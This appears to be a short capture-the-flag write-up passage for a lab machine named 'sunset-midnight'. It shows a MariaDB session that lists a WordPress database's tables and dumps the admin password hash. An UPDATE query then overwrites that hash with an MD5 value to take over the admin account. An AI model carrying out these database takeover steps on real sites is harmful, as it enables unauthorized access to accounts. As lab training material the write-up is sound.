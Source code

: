 ```
Database changed
MariaDB [wordpress_db]> show tables;

+------------------------+
| Tables_in_wordpress_db |
+------------------------+
| wp_commentmeta         |
| wp_comments            |
| wp_links               |
| wp_options             |
| wp_postmeta            |
| wp_posts               |
| wp_sp_polls            |
| wp_term_relationships  |
| wp_term_taxonomy       |
| wp_termmeta            |
| wp_terms               |
| wp_usermeta            |
| wp_users               |
+------------------------+
13 rows in set (0.127 sec)

MariaDB [wordpress_db]> select * from wp_users;

+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.129 sec)

MariaDB [wordpress_db]> 

```
// Now we got the password for the admin, but it is encrypted, I tried and couldn't get it decrypted, but we have access to the database, so may as well just change the password 
```
MariaDB [wordpress_db]> UPDATE wp_users SET user_pass="ff9830c42660c1dd1942844f8069b74a"
    -> WHERE ID=1;
    
Query OK, 1 row affected (0.133 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MariaDB [wordpress_db]> select * from wp_users;

+----+------------+----------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                        | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+----------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | ff9830c42660c1dd1942844f8069b74a | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin        |
+----+------------+----------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.127 sec)

MariaDB [wordpress_db]> 
```